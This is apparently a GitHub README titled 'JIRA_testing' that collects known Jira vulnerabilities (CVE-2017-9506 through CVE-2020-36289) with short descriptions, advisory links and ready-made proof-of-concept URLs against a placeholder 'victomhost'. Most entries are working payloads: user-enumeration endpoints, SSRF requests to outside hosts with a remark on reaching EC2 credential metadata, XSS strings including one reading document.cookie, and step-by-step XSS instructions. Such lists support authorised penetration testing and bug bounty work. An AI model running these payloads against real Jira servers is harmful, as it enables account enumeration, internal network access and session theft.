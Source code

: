 # JIRA_testing

### cve-2019-8449 - Username enumeration throw informaton disclosure vulnerability 

The /rest/api/latest/groupuserpicker resource in Jira before version 8.4.0 allows remote attackers to enumerate usernames via an information disclosure vulnerability. 
 https://jira.atlassian.com/browse/JRASERVER-69796
 https://victomhost/rest/api/latest/groupuserpicker?query=1&maxResults=50000&showAvatar=true
 
 -----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
 
 ### cve-2019-8451:ssrf-response-body 
 
The /plugins/servlet/gadgets/makeRequest resource in Jira before version 8.4.0 allows remote attackers
to access the content of internal network resources via a Server Side Request Forgery (SSRF) vulnerability due to a logic bug in the JiraWhitelist class.

https://jira.atlassian.com/browse/JRASERVER-69793?jql=labels%20%3D%20
 https://victomhost/plugins/servlet/gadgets/makeRequest?url=https://victomhost:1337@example.com
 
 ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
 
 ### RCE Jira=CVE-2019–11581
 
https://hackerone.com/reports/706841

/secure/ContactAdministrators!default.jspa

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

### cve-2018-20824

 vulnerable to Server Side Request Forgery (SSRF). This allowed a XSS and or a SSRF attack to be performed. More information about the Atlassian OAuth plugin issue see 
 https://ecosystem.atlassian.net/browse/OAUTH-344 . 
 When running in an environment like Amazon EC2, this flaw can used to access to a metadata resource that provides access credentials and other
 potentially confidential information. 
 
https://victomhost/plugins/servlet/Wallboard/?dashboardId=10000&dashboardId=10000&cyclePeriod=alert(document.domain)

---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

### cve-2020-14179 :- Information disclosure

 Atlassian Jira Server and Data Center allow remote, unauthenticated attackers to view custom field names and custom SLA names via an Information Disclosure vulnerability 
 in the /secure/QueryComponent!Default.jspa endpoint.
REF=https://jira.atlassian.com/browse/JRASERVER-71536
POC: 
https://victomhost/secure/QueryComponent!Default.jspa

-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

### cve-2020-14181 :- Enumerate user via information disclosure

Atlassian Jira Server and Data Center allow an unauthenticated user to enumerate users via an Information Disclosure vulnerability in the
/ViewUserHover.jspa endpoint.

Ref=https://jira.atlassian.com/browse/JRASERVER-71560?jql=text%20~%20%22cve-2020-14181%22
 POC:
https://victomhost/secure/ViewUserHover.jspa


https://victomhost/ViewUserHover.jspa?username=Admin

----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

https://hackerone.com/reports/380354
CVE-2018-5230
https://jira.atlassian.com/browse/JRASERVER-67289
HOW TO EXPLOIT:
https://host/issues/?filter=-8
Go to the link above
Click the "Updated Range:" text area
Put your XSS payload in "More than [ ] minutes ago" (15 character payload limit) or in "In range [ ] to [ ]" (No length limit, ONLY put the payload in the first box)
Click Update
Payload will run. If it doesn't run chances are you used double quotes somewhere. Only use single quotes!

----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

### jira-unauthenticated-dashboards  

https://victomhost/rest/api/2/dashboard?maxResults=100

jira-unauth-popular-filters 
 https://victomhost/secure/ManageFilters.jspa?filter=popular&filterView=popular
 
 ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
 
 ### jira-unauth-popular-filters 
 
 https://victomhost/secure/ManageFilters.jspa?filter=popular&filterView=popular
https://hackerone.com/reports/197726
https://newrelic.atlassian.net/secure/ManageFilters.jspa?filterView=popular
https://newrelic.atlassian.net/secure/ManageFilters.jspa?filterView=search

https://hackerone.com/reports/139970

https://host/secure/ConfigurePortalPages!default.jspa?view=popular
https://host/secure/ManageFilters.jspa?filterView=search&Search=Search&filterView=search&sortColumn=favcount&sortAscending=false

---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

### Xss

/pages/%3CIFRAME%20SRC%3D%22javascript%3Aalert(‘XSS’)%22%3E.vm

---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

### CVE-2019-3403 :- user name enumeration throw information disclosure

Information disclosured vulnerability
1.()https://jira.atlassian.com/browse/JRASERVER-69242
visit the URL address,you can check the user whether is exist on this host
/rest/api/2/user/picker?query=admin

So the attacker can enumerate all existing users on this jira server.

----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

### CVE-2019-8442 :- information disclosure

https://jira.atlassian.com/browse/JRASERVER-69241
visit the URL address,the server will leaking some server's information

/s/thiscanbeanythingyouwant/_/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml

---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

### CVE-2017-9506

https://blog.csdn.net/caiqiiqi/article/details/89017806
/plugins/servlet/oauth/users/icon-uri?consumerUri=https://www.google.nl

-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

### CVE-2019-3402：[Jira]XSS in the labels gadget

/secure/ConfigurePortalPages!default.jspa?view=search&searchOwnerUserName=x2rnu%3Cscript%3Ealert(1)%3C%2fscript%3Et1nmk&Search=Search
ConfigurePortalPages.jspa

----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

### CVE-2018-20824：[Jira]XSS in WallboardServlet through the cyclePeriod parameter

/plugins/servlet/Wallboard/?dashboardId=10100&dashboardId=10101&cyclePeriod=(function(){alert(document.cookie);return%2030000;})()&transitionFx=none&random=true


----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

### CVE-2017-9506

https://ecosystem.atlassian.net/browse/OAUTH-344
 exploit an SSRF vulnerability in confluence and was able to perform several actions such as bypass any firewall/protection solutions,
 was able to perform XSPA through assessing the response times for ports, access Internal DoD Servers and internal services.

I discuss the vulnerabilities exploited in my write which you can find here, 
https://medium.com/bugbountywriteup/piercing-the-veil-server-side-request-forgery-to-niprnet-access-c358fd5e249a

https://host/plugins/servlet/oauth/users/icon-uri?consumerUri=https://ipinfo.io/json

----------------------------------------------------------------------------------------------------------------------------------------------------------------------------

### username and email diclose

https://host/secure/popups/UserPickerBrowser.jspa

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

### Atlassian Jira Unauth User Enumeration (CVE-2020-36289) 

Jira < 8.5.13
 8.6.0 ≤ Jira < 8.13.5
 8.14.0 ≤ Jira < 8.15.1
 
 PoC:
 
 /secure/QueryComponentRendererValue!Default.jspa?assignee=user:admin
 
 ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
